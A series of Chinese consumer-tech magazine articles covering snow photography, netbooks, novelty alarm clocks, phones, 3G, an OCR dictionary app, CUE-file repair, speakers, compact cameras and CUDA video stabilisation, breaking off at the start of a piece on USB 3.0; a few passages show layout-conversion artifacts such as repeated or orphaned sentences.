惊喜总是留给有准备的人，你是否看着去年的那些照片还在惆怅？让高手来教你几招，有请常年活跃在蜂鸟摄影论坛，身居版主的雪候鸟同学！

菜菜同学：在雪中漫步、打雪仗是件很浪漫的事，可是总不能把最精彩的瞬间记录下来，拍出的照片灰蒙蒙一片，没有色彩，没有对比，怎么办？

雪中拍摄时到处是飞舞的雪花，会让整个世界混沌一片，空气能见度下降，看着很美，拍下来却完全不是那回事。

-   第一，避免长焦端拍摄（就是将远处景物拉得很近），要多用广角端（广角就是将取景范围推得更广，画面能容纳更多东西）。并且多拍近景，距离越近，被拍摄物与相机之间距离越短，受雪花的干扰就越小，能见度最高，画面也就清晰了。
-   第二，被拍摄景物要有主次之分，有主体也要有合适的陪衬物。雪中四周都是白蒙蒙的一片，缺少层次对比，需要寻找色彩鲜艳的陪衬物来打破画面的沉闷，一个红雨伞、一件红羽绒服、黄色的站台、深褐色的石头，这些都是绝佳的陪衬物，将它们安排在画面的前景，远处再是白茫茫的雪花，画面马上活起来了。
-   第三，相机快门速度得足够高，才能将雪花飘落的瞬间给凝固住。没有足够的快门速度，雪花自然会虚掉。根据经验，将快门速度设置到1/500秒以上时把握会更高些。

小提示：
-   ★没有手动功能调节快门？可以把相机的ISO提高到400，将模式调到运动模式试试。
-   ★陪衬物的选择要点：与灰白色对比强烈的颜色，黑色、红色、黄色等。

菜菜同学：雪终于停了，兴高采烈地怀着十二分激动冲出去，可是相机刚拍一会就没电了，而且照片都很暗，无限郁闷啊。

呵呵，雪后天气放晴，空气无比清澈，能见度高，整个世界银装素裹，难免兴奋，不过要做足准备才可以说下雪不冷化雪冷，低温下数码相机的电池性能会急剧下降，多带块电池，然后放在外套里面一层衣服里保温，在寒冷的雪地中才能拍得过瘾啊。

-   第一，曝光永远是最关键的一步。雪景拍摄时相机测光系统会由于雪地强烈反射而自动减少通光量，导致画面暗淡。
-   ★点测光：适合雪地中拍摄建筑或人，避免用Auto挡，以人物的面部作为测光点，保证人物面部曝光正确。
-   ★大光圈：如果相机不能选择对测光方式，把光圈开大一级，增加通光量也可以改善效果。
-   ★曝光补偿：既不能选择测光方式，又无法调整光圈快门，还可以设置曝光补偿，增加一挡曝光补偿，一定要多尝试看看哪种效果最好。
-   第二，黄金比例分割的构图一直是最稳妥的方法，但你依然可以更大胆地去突破。拍雪景时，首先忌大而空，单纯一片白茫茫，没有中心和重点，没有大小、色彩对比，拍下来画面会空荡荡，没有一点视觉冲击力。比如重点可以是一处与雪色彩对比强烈的车，也可以一串脚印，屋顶上厚厚的积雪，当然也可以是你身边的帅哥美女。
-   最后一步，也是至关重要的一步，利用PS调整一下色阶和对比，或者重新裁图进行新的构图，还有色彩校正，这些是有一点点难，但只要你去尝试，你会发现一切都是超值的！

（文/雪候鸟）## 上网本与轻薄本？按“需”选择才是根本

上网本、超轻薄笔记本（CULV），这些自2007年末开始出现的新产品类型着实让人眼花缭乱。经过近两年（注：CULV上市时间不到1年）的市场轰炸，消费者也逐渐分清了它们之间的不同之处。

## 向左还是向右？

目前市场上主要分成三类产品，第一类是上网本，第二类是超轻薄笔记本，第三类是传统笔记本。在华硕“轻薄新主张——第二代ULV轻薄笔记本发布会”上，华硕电脑执行长兼总经理沈振来先生也做了特别的说明：“上网本我们的定义是比较偏向第二台电脑，第一台电脑里面大家很重视效率，而第二台电脑要重视的是电池的续航时间，这样大家一天都不用再充电。至于CULV产品，在功能上绝对不会有牺牲，其实我出了一个很难的题目给我们的研发单位，我要维持原来的轻薄和长效，但是我的效率跟标准主流机种差不多，这样的意思就是说又要马好又不要马不吃草。”

## CULV是华硕的下一个上网本吗？

根据目前记者掌握的资料，华硕是上网本市场“第一个吃螃蟹的人”，也正因为敢于创造，为其赢得了20%的上网本市场份额，而在CULV，尤其是第二代CULV产品发布之时，新的竞争会不会让华硕再一次成为“吃螃蟹的人”呢？记者对华硕EeePC发布会记

## 向前，华硕的选择！

从记者目前掌握的信息来看，上网本多集中在10英寸到12英寸，传统笔记本的尺寸规格则与CULV产品互有重叠，并且在定价上也比较接近，对用户来说，选择起来又平添了一份困难，记者就这一问题也与多位用户进行沟通，发现他们在选择时确实有些困惑。不妨，我们来听听华硕方面执行长兼总经理沈振来先生是怎样看待这个问题的吧。

## 左右互搏还是合二为一？

就CULV和上网本来说，二者在定位上显然还是有些差异的，并且，这个差异很有可能会进一步拉大，性能不决定一切，这是《电脑爱好者》多年来一致倡导的，而今，随着产品类型的不断变化、使用需求的不断提升，产品本身也在悄然发生变化。举例来讲，在“W+E是绝配——华硕Windows7版Eee家族产品发布会”上，华硕电脑全球副总裁EeePC事业部总经理胡书宾先生就表示：“事实上，我们一直在构思下一代的EeePC到底是什么样子，就像EeePC T91MT（一款基于上网本平台的Tablet PC），出行时拿一支触控笔，基本上就可以完全掌控了，使用起来甚为方便，其实在华硕的观念里面，EeePC的发展，我们不会一直很单纯地去做所谓配置上面的竞争，相反的是我们的设计观念还有产品的推出，消费者的需求永远都在变的，永远都是多样化的。”我们也欣喜地看到了上网本的变化——无疑，这将让消费者在选择产品时更容易区分，实际使用需求才是选购的先决条件。

## 看一看数码潮人的家——时间篇

潮人一词源自潮州人的简称，那么潮人是什么样的？潮人是一种生活态度，新奇、时尚是他们的代名词，那他们的家肯定是与众不同的喽。我们网罗一切好玩的、新奇的数码产品，这些宝贝在淘宝网上都可以找到，并且十分物美价廉。为了起床真是想尽了一切办法，用各种不想起床的牵强理由来忽悠自己，可是，班终究是要上的，课终究还是要听的，还好有下面的这些闹钟帮忙，它们可不是好惹的哦。

怎么把积木拼好，这个设计果然有点邪恶，等拼好了它才不会继续响铃，然而大部分时候拼好了以后也就被吵得没有什么困意了。

- 搜索关键字：炸弹闹钟天生就是一个炸弹模样，响起来发出爆炸声吓唬你，有胆量的可以尝试试试还不敢继续贪睡，需要说明的是，这个产品不适合带着外出旅行，也许会给你的安检造成麻烦。

电影拍板？是的，外形是一个纯粹的道具模样，每天滴滴滴一睁眼后看到它，是不是有一种全新的冲动？新的一天即将上演，而你和我作为生活的主角，信心满满地去奋斗吧。

- 搜索关键字：轮子闹钟别小看这个大脚怪，虽然不是新鲜玩意了，但是它设计得太强大了，边响边跑，让你十分无奈，如果不起床抓住它，那么除非电池耗尽，算了，还是别赖床了，活动活动当作晨练。起床！

好吧，我承认，在你最困最迷糊的时候，还要去想怎么把积木拼好，这个设计果然有点邪恶，等拼好了它才不会继续响铃，然而大部分时候拼好了以后也就被吵得没有什么困意了。

## 放弃联通iPhone！“摸”出新精彩

联通正式发售iPhone，虽然发售会没有想象中的火爆，但它点燃了很多人心中拥有一部超大触摸屏幕手机的欲望。手机第一感觉是什么？当然，毫无疑问是手机的显示屏幕了，想够炫够潮，就得从屏幕开始。

以等效浏览QVGA屏幕的四倍画面大小显示的内容。

## 性价比首选

经历数次降价，这款拥有VGA屏幕的手机目前两千出头，屏幕为2.8英寸，相比同等屏幕大小的其他很多种手机，分辨率高达如此之高的并不多。笔者对比了多普达S900和iPhone屏幕效果，iPhone屏幕明显比S900的屏幕颗粒感强一些，一眼就能看出S900的画面更加细腻、精致，但是iPhone屏幕的1600万色要比S900的65536色高出不少，画面显得非常艳丽，这个也是S900的不足之处。Windows Mobile6.1操作系统搭配528 MHz处理器，192MB RAM，320万像素的自动对焦摄像头还兼顾了GPS导航系统，电池略小为900mAh，应用不多的话能够达到一天的使用时间，整体来说在两千多元的价位很超值。

首先要谈到一个词：VGA（Video Graphics Array视频图形阵列）通常用来指640×480的分辨率，而它的弟弟QVGA（Quarter VGA），分辨率为320×240。不论是VGA还是QVGA，它们都是指屏幕的分辨率，在相同尺寸的屏幕上对比，分辨率越高，画面越细腻，颗粒感越小，显示的内容就越多，用来上网可以等效浏览QVGA屏幕的四倍画面大小显示的内容。

## 国货精品iPhone的弟弟

魅族M8在上市之初就引起了不少关注，被誉为国产版的iPhone，屏幕更为出色，3.4英寸高达720×480分辨率，667MHz的处理器，256MB内存，从数据上看十分强悍，而距离、重力、环境光线感应和多点触摸等等带来的不仅仅是实用，还能让你在妹妹面前很好炫耀一把，这款手机在屏幕显示上绝对是细腻中的佼佼者，笔者在接触过S900后，基本上已经非常满意那种分辨率带来的超细腻体验了。1200mAh的电池玩上一天不成问题，不足两千元的国货精品，绝对够厚道。

> （文/CT）

> （北京/检查用户）

## 你又把自己玩了！到底是什么挡住了3G的脚步

随着联通iPhone正式发售，目前的3G手机市场会有更多便宜的3G手机站出来分食竞争。买！还是不买？

### 3G手机真的来了么？

早在去年，3G手机就已经在窗前吆喝，发展到现在，却不见当初的大好势头，相比成熟的2G手机，前者尚处于门外一只脚，门内那只脚还未放稳的尴尬境地，听到周围朋友谈论3G手机的的确有不少，但是真正能拥有一部的除了钱包雄厚、潮人玩家，还真没看到普通人去购买。广告打得再响，问题不解决，消费者是不会买账的。

### 我们买的是服务

抛开3G网络覆盖能力这个问题不谈，运营商去建设基站也是要时间的。网络优化本身就是个复杂的问题，单来讲一讲服务。如果说在2G网络时代，买个手机80%都是为了打电话、发短信，消费的主体是手机本身，那么在3G网络时代，如果还让消费者花着比2G手机更多的钱，去做着同样的事，显然我们不是傻子。只有3G网络本身高带宽的能力被充分应用起来，把网络生活作为消费的主体，不再是现有停步于买手机的概念，大部分消费者还是愿意尝试。套用一句某手机生产厂商老总的讲话“电视里的广告把3G生活描述得美轮美奂，实际上是把3G手机当2G手机卖！没有足够优化网络以及完善的服务去支持，消费者根本感受不到3G手机和2G有什么区别”。

换个视角，出一道初中的语文题，看看下面这段问题，你是怎么理解的？

最早开展3G手机业务的日本，其3G手机用户数已有约1亿，超过移动通信用户总数的80%为日本主要的运营商au，公司的定位主要是面向年轻人，其提供的娱乐方面的服务就比较多，多科莫公司将手机定位为“生活的一个部分”，所以该公司3G手机中“手机钱包”等功能就比较发达。而下载音乐、收看电视、实时导航、网上购物、在线游戏这些都是生活中最常见的功能。

如果你认为3G手机的普及是迟早的事，只不过我们才刚刚起步罢了，那么我想你只看懂了第一层意思，初中上语文课时没少睡懒觉吧……不难看出日本3G手机迅速普及化，运营模式是关键，运营商把最贴近人们生活的服务都尽可能地提供出来。假如我们也生活在如此便利的环境下，去超市购物结账时，只需在收银台扫描一下手机，不必装着大把的钢蹦。坐公车想看哪个台的电视时，不用担心高昂的流量费以及断断续续的信号等等贴心的应用，我想没有不心动的朋友。

### 请熟悉民声再打广告

一位厂商朋友笑言“目前3G手机的设计趋势都是无键盘的大屏幕，卖手机就像卖玻璃”。如果不太理解，让我来举个例子，前段时间十分火爆的电视购物被叫停，原因就是大卖特卖假冒伪劣的产品欺骗消费者，但是为什么那么多人会上当呢？其中一个原因可以用这个词来解释——“正中下怀”。没错，那些广告又准又稳的说到人们的心坎里去了，什么镶钻手机、大屏幕、视频通话、远程遥控、防盗防偷这些忽悠人的字眼。说白了，人们都是为了面子和功能去买手机，这一点不妨借鉴借鉴。看地铁里面打满了运营商那些华而不实的广告，可是真正买来3G手机之后，要怎么去用？我们只是买了各种服务名字，这些服务还不够贴近生活，不能真真切切地体会到3G手机到底带来了什么。

凡事不能操之过急，对待问题要双面分析，3G手机发展缓慢，一方面运营商的本土服务不够切实丰富，二方面人群层次复杂，一时难以推出符合国情的本土化3G的网络服务，但是不是说有难度就不去做了，不能总用广告词来忽悠。当然完善3G网络建设、提高信号覆盖能力也要同时进行。总之，先让3G融入生活，变成我们生活的一部分，之后再谈赚钱。
（本刊记者/柴涛）

## 免费的点读机 随时随地可查的英汉大词典

现在的孩子们学习条件都很好，为何英语学习好帮手点读机在商场能卖到脱销？看见不会的单词，用笔点住就可以翻译出中文。虽然这么好，但我们也同样带着点读机去学习吧？

### 小知识：

OCR（Optical Character Recognition光学字符识别）简单地说就是利用电子设备（例如扫描仪或数码相机）扫描处理纸上打印的字符，用字符识别方法将文字的物理形状翻译成计算机编码文字的过程，实际应用中会简化很多书籍录入的工作。

前不久同学聚会时，有一个好友炫耀到自己的手机能支持OCR扫描，OCR已经流行这么多年了，本以为没什么新鲜的，谁知他拿出一本英文读物，用手机实时拍摄，中文翻译竟然会跃然屏幕之上，这不就是传说中的“点读机”么？惊讶之余回来赶忙搜集信息。
原来是网易出品的有道手机词典1.5版本，下载地址：http://m.youdao.com/download。除了常规的键盘录入单词、句子翻译，还能支持摄像头取词，可惜目前只有S60第三版和第五版系统才可以用，并且要求手机具备自动对焦、微距模式。部分型号手机只能通过刷新最新固件获得支持，比如N78的V30固件。

### 实战扫描效果

正确率：用它识别书本、电脑屏幕上面的文字信息，查看其翻译结果的正确率。取词的方法非常简单，开启“摄像头查词”功能（见图1），确保将“十”字对准单词中心，并且保证该单词的取词范围在四角范围内，就会出现单词的解释（见图2）。

实际扫描中，翻译20个单词，其中16个正确，有3个需要等待几秒才能查找到最终结果，另外一个无法识别，比如字母y和j容易混淆。

速度：如果单词字母比较少，3~5个的话基本上会在1秒内显示结果，如果字母比较多，10个以上就需要多些时间，基本上2秒左右，速度还是可以接受的。

### 小提示：

- 为了增强扫描的正确率，建议先运行向导。
- 使用时尽量增强被扫描文字的亮度、对比度，会加快识别速度和正确率。
- 有道词典还支持JAVA、iPhone、Pocket PC、WM、Android系统。

几乎每个人随身携带的数码产品就是手机了，所以说这个软件的应用面还是很广泛的，除了摄像头OCR取词翻译，词典本身的功能还是很强大的，豪华版包含了10万的词汇量，还可以通过网络查词，词语联想与整句翻译也是个不错的亮点（见图3）。
（文/CT）

## 修复CUE 还我无损CD

很多朋友喜欢在网上下载APE、FLAC格式的整张音乐CD，不仅音质好，还不用花钱。一张CD镜像大概四五百MB，辛苦下载之后导入播放器，却发觉无法播放。
这些压缩的原版CD，通常会附带一个体积只有几KB的cue文件，可以说它就是我们在播放音乐时的菜单，尤其是那些整张CD单个APE、FLAC文件时，没有cue文件导航，很难准确找到每一首歌曲的开始和结束位置。

### 两步教你搞定

最为常见的错误是，cue文件在最开始制作时就出现了问题，导致无法使用。右键点击cue文件，用记事本打开，找到File "abc.wav" wave的字样，改成File "xxx.APE" wave，其中xxx就是下载的APE、FLAC文件名。

```
PERFORMER "Various" --------歌手名
TITLE "August Rush" --------专辑名
FILE "August Rush.APE" WAVE --------关联的APE文件
TRACK 01 AUDIO --------音轨序号，这是第一首
TITLE "Main Title" --------这首歌的歌名
PERFORMER "Mark Mancina" --------这首歌的演唱者
INDEX 01 00:00:00 --------开始的时间
```

修改之后如果不能导入，就需要仔细的检查cue本身文件的内容。
对照正确的cue文件去修改，离成功又近一步。如果下载包中没有提供cue文件，我们用以上方法，找到已有的其他cue文件，手动制作一个。需要做的就是耐心的去听，找到各首歌曲开始的时间点，照猫画虎替换掉原来的cue文件。
（文/一路向北）

- 要使用英文标点
- 引号内的文字可以根据自己喜好更改，在播放器中会有显示。
- 第三行要注意必须了解自己下载的是何种格式，是APE还是flac或是wav。
- 这首歌在整个APE、FLAC文件中开始的时间，比如第一首的开始时间总是0分0秒，必须按照格式才能生效，00（分）：00（秒）：00（百分秒）。

## 哆啦A梦来了 生活因创新而更美好

10年前的我，怎么也不会想到当初刚刚走下神坛的电脑，如今渐渐归属于家电范畴。从HTPC的出现到漫步者M500一体化音箱亮相，PC产品正逐渐变得与居家生活密不可分。

什么样的音箱才可以称为居家装饰品？传统的音箱不仅呆板，各种连线错综复杂，欣赏音乐时难免影响心情。只有外观造型设计有新意，做工上乘同时音质又不俗才能满足居家装饰的条件。漫步者M500可以说从一诞生就伴随着耀眼的光环，先是受到B&O总设计师的赞赏，又在法国时尚杂志《GQ》的年度评选中被评为年度5佳设计奖，在经历种种期待后，打开包装时也着实让编辑们眼前一亮，哆啦A梦！

没错，有人说M500的设计很像一个束腰的迷人后背，有人说它更像哆啦A梦的大脑袋，无论你认同哪一种观点，都不得不说M500的设计十分有新意。整机钢琴漆材质，后背板看起来十分闪亮，提升了不少气质，后背板还有一个红色效果灯，如果周围环境较暗，靠背墙放置时更能烘托气氛。从造型设计到实用感受，不得不承认，它更像一件家用电器，并不想用2.1音箱这样大概括的词汇去称呼它。

不少朋友觉得2000多元的价格并不值得购买。我想说的是M500首先是一个iPod外设，然后才是多媒体音箱。iPod音箱的音源是固定的，用户最在意的是音箱能不能配得上iPod，能不能让iPod更好用更好玩，仅此而已。虽然定位偏向小众化，可是不能掩盖它本身的优秀，更期望给其他厂商起到一个抛砖引玉的作用。PC产品不再局限于电脑桌面，融入生活，给予人们除了音乐之外的多方面享受。

不难想象，过几年我们在装修房子时，是不是要考虑电脑产品的摆放？它们不再局限于书房、客厅的桌子上，而是独立成为装点居家生活的一道美丽风景。

看到M500的背面，你是否也想起了儿时陪伴你的动画片？硕大的脑袋与哆啦A梦如出一辙。只有红色的效果灯在提醒你，它不是哆啦A梦，它是一款音箱。在外观造型的设计上，

M500的底座也就是整个音箱的控制台，黑色亚克力材质，没有多余的按键，显得格外干净与优雅。作为iPod音箱，提供iPod的接口自然是必须的。

配件提供了12种接口，方便连接。

揭开面纱，可以看到M500独到的设计来源。低音单元占据箱体的中部，中、高音单元左右分别放置，还留出了倒相孔的位置。作为一款2.1音箱，它把2只卫星箱和低音炮全部放在了一个腔体内，利用声音的指向性特点，中、高音单元发出的声音不会正前方辐射，而是构成了一个扇形辐射面，这样大大地改善了声场效果，让声场变宽，音乐表现力进一步提升。密密麻麻的螺丝空位更让人对这两千多元的大家伙的做工感到放心。

两枚中音扬声器被单独地放置到两个完全独立的且密闭的声学腔体中，与低音和高音完全隔离；由于高音扬声器共用了腔体，它们的分离度会被降低，还好在单元上得以弥补，低音量感很足，左右声道的分离度也要比想象的好很多。

电路板位于底座内，M500采用高集成电路，使用大面积贴片元件，用料比较足。功放是TDA7379，要明显好于普通2.1音箱的用料，声音比较耐听。

M500用到了分频器，保证了中高频声音纯净，不会出现听感混沌，听久了头晕的感觉，解析力的提升适合播放各类型的音乐，不像普通2.1音箱，只能听些流行音乐、玩玩游戏。

遥控器在连接iPod播放时很方便，这一点设计使得M500更为家电化，躺在沙发上就能轻松欣赏音乐，显然更适合现在的休闲生活。

（文/CT）

## 一寸长一寸强 长焦卡片机 卡片机中的战斗机

远处，她正凝神沉思，我从容地从口袋里拿出长焦卡片机，无需靠近，只需推动变焦杆，轻轻按下快门——咔嚓，难得而美丽的瞬间，就此定格。这就是长焦卡片机的魅力。

卡片机，顾名思义，形如卡片的照相机。如索尼的T系列，佳能的IXUS系列，尼康的S系列等。卡片机具有外形时尚、色彩靓丽、小巧轻薄的特点。最大的优点就在于便携性。长焦卡片机是指具有长焦功能的卡片机，可以把它看成长焦DC（消费数码相机）的小型版本。

## 何谓长焦？

长焦是相对短焦而言，简单地说1~3倍变焦的称为短焦，3~10倍称为小长焦，10倍以上为长焦（指DC）。

这里说的变焦为光学变焦，数码变焦不作为焦段划分的标准。简单地说，光学变焦好比望远镜，可以把远处的物体清晰地展现到眼前，而数码变焦则相当于在电脑上把图片放大，两者效果差异很明显（见图1）。可见，通过光学变焦拍摄的照片，其画质要远优于通过数码变焦拍摄的照片。

长焦相机的最大优点就是可以远距离拍摄不易接近的物体，例如花丛中的蝴蝶、河对岸的宝塔等。而长焦卡片机由于具备轻巧便携的优点，对外出旅游、身负行李的游人来说，其好处更是不言而喻。

如果你心动于从容地拍摄较远距离景物的能力，不要着急，耐心看完五星级小建议：

要注意的是，以下这些优点都具备的话，一般都会很贵，请慎重考虑。

- 选择CCD尺寸较大的
CCD是数码相机的成像元件，CCD的尺寸很大程度上决定了画质的优劣，手机画质比不上相机，很大程度上也是这个原因（市面上主流的CCD尺寸比较：1/1.7>1/2.3>1/2.5）。

- 选择镜头口径较大的

镜头口径越大，进光量越大，成像的条件也越优越，画质也越好，可以看到，越贵的专业镜头，它的性能越好，而口径也越大，手机和相机的画质差别也有这方面原因。

- 选择光圈较大的
光圈大则说明镜头通光量越大，在镜头口径相当的情况下，光圈大的成像条件更优越（请注意，光圈大小用F值衡量，F值越小，说明光圈越大）。光圈的大小还关系到快门速度，光圈越大，快门速度越快，也越容易拍出对焦准确的照片（F2.8>F3.5>F8.0）。

- 选择有光学防抖的
光学防抖能有效降低安全快门速度，如果您的预算充足，并且还没练成铁手神功，也不打算带着脚架拍摄，这个功能还是非常有必要的（见图2）。可见防抖功能还是有显著作用的。

- 选择带手动功能的
大部分卡片机不具备手动功能，摄影参数不能按拍摄者的意图任意调节，使用上有一定局限性；带手动功能的相机可以任意调节摄影参数，适合有摄影基础的用户使用。

## 带你选战斗机

1600元10倍变焦王 富士F75

http://www.360buy.com/product/170542.html
京东报价：1678元

1/2英寸大尺寸CCD决定了F75不俗的成像能力，1000万像素也足够游玩拍照使用。屏幕尺寸略小为2.7英寸，F75是7月份上市的新品，还有一定的降价空间，相信还会吸引更多人的目光。

## 2000元10倍变焦王 索尼H20&

http://www.360buy.com/product/156033.html
京东报价：2149元

三星WB550

http://www.360buy.com/product/156031.html
京东报价：2069元

两款产品采用1/2.3英寸CCD，还算合格。1240万像素在一定程度上弥补了CCD尺寸，值得一提的是索尼H20的2cm微距拍摄能力要强于其他两款的5cm，远近兼顾，可谓全能圣手，可惜价格略高。作为2月份上市的产品，降价空间不是很大，整体上来讲值得考虑入手。

（广西/李羚收）# 解开迷你音箱误区之谜

笔记本的兴起改变了IT市场原有的格局，笔记本周边产品行业也开始有了蓬勃的发展，这其中就有我们今天的主角——迷你音箱。

绕声，10段图形均衡器，EnvironmentFX环境仿真等附加功能。难能可贵的是，在这样低端的应用领域，骅讯还保留了SPDIF输出功能。

此款音箱采用了2英寸全频单元，整体的额定功率为6W，这样的配置应该可以满足大部分笔记本用户的音质要求。为了能够使小体积音箱的低频得到提升，兰欣随乐US-16采用了后置倒相孔的设计，此种设计虽然说是杯水车薪，但是还是有一定听感上的提升。

# 误区之一：低频就是一切

台式机小体积化、笔记本高速普及等，对音箱设计又有了新的要求，体积还得再小，小到能和这些设备匹配。这种需求是自然产生的，但这对音箱行业来说，这种需求却是极端的，很多人会陷入到一种固定的思维方式——这么小的东西怎么可能有低频，音质能好么？

这是一种错误的认识，似乎低频就是一切，这和多媒体音箱厂商常年吹嘘自己产品低频多好有关，用错误的衡量标准误导了消费。

很多音箱采用两分频甚至多分频设计，这样是为了解决频率响应的问题，因为目前来说，扬声器所能发出的频率大小还是和振膜尺寸有关，一个5英寸的扬声器，是不可能发出20kHz有效高频的，而1英寸的扬声器，同样不可能发出低频，虽然不同的振膜材料会改变频率响应宽度，但无法做到依赖一张振膜实现全部频段的响应。

只有拳头大小的迷你音箱，在设计上势必就会有所舍弃，如果设计师还想在这种音箱上作出强悍低频，一定是喝高了，但确保不错的中高频却是绰绰有余的。所以在迷你音箱的选择上应以中高频为依据，更好的人声和更清脆的音乐才是它们应该有的素质。甚至有专家说到，在中频表现上迷你音箱超越千元级书架音箱完全不是问题。

# 误区之二：USB 主控芯片不登大雅之堂

由于多数迷你音箱采用内置USB主控芯片的方案，让很多人怀疑其声卡芯片的音质。对比独立声卡（创新、乐之邦、节奏坦克等）这些内置的USB主控芯片确实羞于见人。甚至相比于板载的小螃蟹Realtek 888 HD Audio声卡芯片都有着一定的差距。但是我们不要忘记木桶效应，木桶盛水的多少取决于最短的那块板子，而在笔记本中，最短的那块板子显然就是糟烂的笔记本喇叭（笔记本上的发声单元也就只能叫做喇叭）。

就目前来看，迷你音箱搭配USB主控芯片还是要远远强于HD Audio搭配笔记本内置的喇叭。不过话又说回来，USB主控芯片也分为很多品牌，很多型号，他们之间也是有着不小的差异。

目前，USB主控芯片主要有骅讯（C-Media）和鑫创（SSS）等芯片。

### 小知识 什么是I2S

I2S总线是飞利浦公司为数字音频设备之间的音频数据传输而制定的一种总线标准，该总线专责于音频设备之间的数据传输，广泛应用于各种专业级多媒体系统。

从这些USB主控芯片来看，骅讯的102和108是一般迷你音箱比较好的选择，当然也不能排除带有更多功能的迷你音箱采用更高档的主控芯片。

# 误区之三：要音质不要便携性

谁需要迷你音箱？如果我们把微型音箱产品按照现有产品类型分为“易于随身携带，在户外或无外接电源处使用”的便携式产品以及“有相对固定工作场所，获得尽可能高音质的中大型音箱”的桌面式产品两类的话，那么迷你音箱便携性是不可缺少的一点。

迷你音箱这种产品，之前大家习惯把这类小型化的音箱叫做笔记本音箱，后来当大家发现该产品不一定只能搭配笔记本后又改口叫迷你音箱，但是市场上的最终出现的产品又并非只有便于携带的品种，我们可能因为对2.1音箱的青睐而爱屋及乌地购买种缩水版的2.1音箱。那么当你带着轻薄的本本移动办公或者旅行时，它的作用于普通2.1音箱没有任何区别，你肯定不会背着它到处行走。

# 兰欣随乐US-16

音箱采用单单元设计，箱体为塑料材质打造，表面有细磨砂质感。US-16还在侧面加入了银色线条装饰，有些颜色版本中为黑色线条。箱体将控制部分放在背部，包括3.5mm接口和音量调节旋钮。另外在箱体顶部还有使用方面的提示。

**规格**

| 项目 | 参数 |
| --- | --- |
| 额定功率 (W) | 6 |
| 信噪比 (dB) | 85 |
| 频率响应 (Hz) | 100-18k |
| 扬声器单元 (inch) | 2×2 |
| 主控芯片 | CM102 |

# 奋达V350

奋达V350外形修长、优雅，箱体做工精细、考究，透露出了一种年轻、时尚的产品内涵，很讨年轻用户喜欢。机身做工相当精细，音箱通体看不到一处螺丝钉和可拆卸部位，所有板材接合处都处理得相当严密，箱体棱角和线条也都处理得比较柔滑。

此款音箱有效输出功率为2.4W，音箱内部采用的是40mm全音域钕铁硼锥形单元，因此声音细节表现的比较出色。中间的“低音辐射器”起到了一个被动式低音喇叭的作用，相当于增加了扬声器的口径，也在一定程度上增强了中低音的效果。

**规格**

| 项目 | 参数 |
| --- | --- |
| 额定功率 (W) | 24 |
| 信噪比 (dB) | 85 |
| 频率响应 (Hz) | 90-20k |
| 扬声器单元 (inch) | 1.6×2 |
| 主控芯片 | CM102 |

# 朗琴T5

朗琴T5音箱采用了高光注塑材，高光注塑成本高，而且防腐蚀，不掉色，光线色泽也非常好，不过由于较高的成本应用较少，手感、质感都非常到位。整体造型是一个长方形，不过在边角处做了弧角处理，让音箱显得更加平易近人。另外扬声器网罩、液晶屏幕采用了几乎同样比例的长方形，三个长方形镶嵌在一起的感觉很有透视效果。

朗琴T5前面板扬声器防尘罩的后面，是两枚1.5寸全频扬声器，除此之外前面板还设计有一个小型倒相孔，起到了增强低音的效果。

**规格**

| 项目 | 参数 |
| --- | --- |
| 额定功率 (W) | 25 |
| 信噪比 (dB) | 85 |
| 频率响应 (Hz) | 100-20k |
| 扬声器单元 (inch) | 1.5×2 |
| 主控芯片 | MCU主控芯片(含MP3解码)、WMA解码芯片、前级放大芯片、FM收音芯片、LCD显示驱动芯片 |

# CUDA来帮忙，手机也能拍大片

如今这年头，地铁里、商场中、马路上放眼望去拿着手机的人比比皆是。手机已然代替了很多很多其他的电子产品，像拍照、听音乐、看书等等功能已经是老幼妇孺无人不会、无人不懂的事情了。随手拍一张照片容易，但是想用手机那小小的摄像头拍段视频可真是难登大雅之堂了。

# 手持方式渗透手机劣势

且不像素，成像质量难以逾越的差距，单单持机方法上用手机来拍视频就根本无法与“正规”挂上钩。在使用DV进行摇动拍摄时，要平稳的移动摄像机的镜头。最好使用三脚架，这样有利于拍摄出稳定的画面。可是手机的持机方式和无法使用三脚架的弊病是不可以避免的。因此我们用手机拍出来的相片往往是抖动严重，拍摄移动物体时更是飘忽不定。

# 价格对比，随意拍摄DV合算吗？

我们以市场上常见的低价DV机为例，其价格约为1500元，搭配最简单的三脚架的价格为50元。对比手机几乎不用增加投入的摄像头（现在正常价位的手机多数具有拍摄短片的能力，分辨率一般在QVGA），多付出的成本为1550元。

那么这1550元可以换来什么呢？简单来讲1550元可以购买一块Geforce GTX260+显卡，还有富余的500元。可能大家要问为什么要用显卡来做价格对比，因为我们今天的主角就是采用CUDA进行抖动、模糊处理的软件——vReveal。

# vReveal 不是你编出来骗人的吧？

可能明白视频压缩原理的读者会知道，视频是由连续帧的关联性进行压缩的，那么就决定了两帧之间有着一定的联系性。vReveal正是对比两帧的异同和一定的画面处理让视频变得清晰和稳定的。

如果你的显卡不支持CUDA，那么并不意味着这个软件与你无缘，只是这些工作交给CPU处理了，不过即使是Intel的新旗舰i7对比显卡也要慢2倍以上。

第一步：下载并安装vReveal（下载地址：http://www.vreveal.com/download）；

第二步：打开vReveal，将需要优化的视频拖动至窗口中（安装好解码器包后，对于vReveal不支持的视频只需要把扩展名改为avi即可）；

第三步：选择上方的Tools（工具）→勾选NVIDIA GPU On（或者直接按Ctrl键+G键，见图1）；

第四步：点击上方Enhance选项卡，并点击左侧的One Click Fix（一键修复）按钮（也可以根据情况进行分别优化，见图2）；

第五步：点击上方Save&Share选项卡，点击Computer，在Format下拉菜单中选择合适的格式（一般选择WMV或者DivX，见图3）。

等待十几分钟，你的视频便优化好了，噪点不见了，抖动消失了，你看看是不是有着些许“专业”的风范呢？

# 数据接口渐入第三代，想说爱你并不容易

在文章的最开始，我们做一个小测试，不要急着在结尾找答案……

问题1：IDE（ATA-1）接口是哪年发明的？
问题2：USB（1.0，2.0）接口能输出多大的功率？

近一年来，由于SSD固态硬盘普及化浪潮来袭，硬盘的传输速度大大提高。但是无论是最快的串行硬盘接口（SATA）的接口，还是最快的通用串行总线（USB）速度也仅仅能达到300MB/s和60MB/s，6年前SATA刚刚问世的时候，可能大多数人都会疑虑地说：“接口速度再快也没用，机械硬盘的速度太慢了。”但是随着SSD一次次挑战300MB/s的速度极限，速度接口逐渐变得力不从心。

USB 3.0，SATA 6Gb/s的风声吹来出去已经不是第一年了，早在2007年Intel就已经在IDF演示了SATA 6Gb/s（SATA 3.0）的高速度，那么为什么直到现在主板上还是老旧的SATA 1.5Gb（SATA 2.0）和USB2.0呢？

# Intel、AMD：稍等片刻，明年才会提供支持

